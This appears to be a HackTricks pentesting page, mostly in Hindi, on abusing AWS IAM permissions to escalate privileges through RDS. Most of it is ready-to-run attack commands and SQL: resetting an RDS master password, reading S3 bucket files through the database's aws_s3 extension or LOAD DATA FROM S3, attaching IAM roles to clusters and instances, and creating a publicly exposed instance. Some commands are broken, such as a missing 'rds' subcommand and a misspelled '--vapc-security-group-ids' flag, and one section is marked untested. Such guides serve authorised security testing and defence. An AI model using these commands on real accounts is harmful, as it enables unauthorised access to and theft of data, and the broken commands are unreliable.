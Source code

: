 # AWS - RDS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## RDS - रिलेशनल डेटाबेस सर्विस

RDS के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड बदल सकता है**, और डेटाबेस के अंदर का लॉगिन भी बदल सकता है:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> आपको **डेटाबेस से संपर्क कर पाने में सक्षम होना होगा** (वे आमतौर पर केवल नेटवर्क के अंदर से ही एक्सेस किए जा सकते हैं)।

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी मिल सकती है।

### rds-db:connect

According to the [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) a user with this permission could connect to the DB instance.

### RDS Role IAM permissions का दुरुपयोग

#### Postgresql (Aurora)

> [!TIP]
> यदि **`SELECT datname FROM pg_database;`** चलाने पर आपको **`rdsadmin`** नाम का डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS postgresql database** के अंदर हैं।

सबसे पहले आप यह जाँच सकते हैं कि इस डेटाबेस का उपयोग किसी अन्य AWS service तक पहुँचने के लिए किया गया है या नहीं। आप इंस्टॉल किए गए extensions देखकर यह जाँच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ इस तरह देखते हैं **`aws_s3`** तो आप मान सकते हैं कि यह डेटाबेस **S3 पर किसी तरह की पहुँच** रखता है (अन्य एक्सटेंशन्स भी हैं जैसे **`aws_ml`** और **`aws_lambda`**)।

साथ ही, अगर आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमतियाँ हैं तो आप वहां देख सकते हैं कि फ़ील्ड **`AssociatedRoles`** में **cluster पर कोई IAM Role जुड़ा हुआ है** या नहीं। अगर है, तो आप मान सकते हैं कि डेटाबेस को **अन्य AWS services तक पहुँच के लिए तैयार** किया गया था। Role के **नाम** के आधार पर (या अगर आप role की **अनुमतियाँ** प्राप्त कर सकें) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास अतिरिक्त कौनसी पहुँच है।

अब, किसी **bucket के अंदर फ़ाइल पढ़ने** के लिए आपको पूरा path जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **raw AWS credentials** होते, तो आप उनका उपयोग S3 डेटा तक पहुँचने के लिए भी कर सकते थे:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **किसी parameter group variable को बदलने की आवश्यकता नहीं है** ताकि यह S3 तक पहुँच सके।

#### Mysql (Aurora)

> [!TIP]
> एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ **`rdsadmin`** नाम का user है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।

mysql के अंदर **`show variables;`** चलाएँ और यदि **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** जैसी variables की values मौजूद हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की permissions हैं, तो आप जांच सकते हैं कि क्लस्टर के पास कोई **associated role** है या नहीं, जो आमतौर पर AWS services तक पहुँच का संकेत देता है).

अब, **bucket के अंदर फ़ाइल पढ़ने के लिए** आपको पूरा path जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` और `iam:PassRole` permissions वाले attacker एक मौजूदा RDS instance में **एक निर्दिष्ट role जोड़ सकता है**। यह attacker को **संवेदनशील डेटा तक पहुँचने** या instance के भीतर डेटा संशोधित करने की अनुमति दे सकता है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: RDS instance में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।\\
ध्यान दें कि कुछ DBs को अतिरिक्त configs की आवश्यकता होती है, जैसे Mysql, जिसके लिए role ARN को aprameter groups में भी निर्दिष्ट करना होता है।

### `rds:CreateDBInstance`

सिर्फ इस permission के साथ एक attacker पहले से मौजूद cluster के अंदर एक **नया इंस्टेंस (new instance inside a cluster)** बना सकता है और उस पर एक **IAM role** जुड़ी हुई हो सकती है। वह मास्टर उपयोगकर्ता पासवर्ड बदल नहीं पाएगा, लेकिन वह नए डेटाबेस इंस्टेंस को इंटरनेट पर उजागर कर सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: परीक्षण करें

`rds:CreateDBInstance` और `iam:PassRole` अनुमतियों वाले एक attacker **नियत role संलग्न करके एक नया RDS instance बना सकता है**। attacker फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच** सकता है या instance के भीतर डेटा संशोधित कर सकता है।

> [!WARNING]
> Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - The profile आपके account में मौजूद होना चाहिए।
> - The profile में एक IAM role होना चाहिए जिसे Amazon EC2 के पास assume करने की permissions हों।
> - The instance profile name और associated IAM role name को prefix `AWSRDSCustom` से शुरू होना चाहिए।
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Potential Impact**: RDS instance में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

इन permissions `rds:AddRoleToDBInstance` और `iam:PassRole` वाले एक हमलावर के लिए किसी मौजूदा RDS instance में **एक निर्दिष्ट role जोड़ना** संभव है। इससे हमलावर को **संवेदनशील डेटा तक पहुँच** या instance के भीतर डेटा में संशोधन करने की अनुमति मिल सकती है।

> [!WARNING]
> इसके लिए DB instance को cluster के बाहर होना चाहिए।
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**संभावित प्रभाव**: RDS instance में संवेदनशील डेटा तक पहुँच या डेटा में अनधिकृत संशोधन।

{{#include ../../../../banners/hacktricks-training.md}}
